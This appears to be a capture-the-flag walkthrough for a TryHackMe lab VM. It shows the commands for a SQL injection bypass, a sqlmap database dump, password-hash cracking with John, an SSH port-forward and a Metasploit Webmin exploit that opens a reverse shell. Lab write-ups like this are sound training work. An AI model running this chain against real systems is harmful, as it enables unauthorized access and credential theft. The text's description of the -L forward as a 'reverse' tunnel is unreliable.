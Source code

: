 # Room
https://tryhackme.com/room/gamezone

# Task 1 - Deploy
Deploy VM

# Task 2 - Obtain SQLi
SQL is a standard language for storing, editing, and retrieving data in databases.  Use a basic SQLi to bypass login and view the form you are forwarded to

* Resources
  * https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection

# Task 3 - Using sqlmap
Load up Burp Suite.  In the form you were forwarded to above, capture a test request and submit.  Save the request to a text file.  Use sqlmap with the saved Burp request

```
sqlmap -r r.txt --dbms=mysql --dump 
```

# Task 4 - Cracking the password
From the sqlmap command above a database dump is provided.  Inside is a password hash for a user.  Use John the Ripper to crack the hash

* Copy hash to text file
```
echo "hash_here" > hash
```
* ID the hash using Name That Hash
  * https://github.com/HashPals/Name-That-Hash
```
nth -f hash
```
* Use john to crack the hash
```
john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256 
```
* Login with the user you found earlier in the sqlmap dump and the cracked password, grab the user flag

# Task 5 - Reverse SSH tunnels
* Once logged into the machine using the creds from above, use the ss tool to list sockets running on the host
```
ss -tulpn
```
* When you find an interesting service that isn't allowed access from the public, you can use reverse SSH tunnels to connect
  * example: ssh -L 1234:localhost:9000 user@example
    * -L - tells SSH To tunnel back from the remote host to you
    * 1234 - this is the local port to access
    * localhost - this is the remote host to access, doesn't have to be the same as user@example
    * 9000 - this is the port listening on the remote host that may or may not be allowed access from the public
    * user@example - this is the normal SSH login to the remote host
* Create a reverse SSH tunnel using one of the service ports you discovered with ss -tulpn
```
ssh -L 1234:localhost:10000 agent47@10.10.172.187
```
* Run nmap against localhost with port 1234 to gain information on the remote service that is running

# Task 6 - Privilege Escalation
Use metasploit to take advantage of the service
```
msfconsole

msf6 > search webmin 1.580
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set lhost tun0
lhost => tun0
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set rhost localhost
rhost => localhost
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set rport 1234
rport => 1234
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set ssl false
[!] Changing the SSL option's value may require changing RPORT!                                                                                                                                            
ssl => false         
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > show payloads 
...
...
...
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set payload 5  
payload => cmd/unix/reverse 
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set username username_found_above
username => username_found_above      
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set password password_found_above
password => password_found_above 
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > run

[*] Started reverse TCP double handler on a.b.c.d:4444 
[*] Attempting to login...        
[+] Authentication successful               
[+] Authentication successful      
```
* Grab the flag
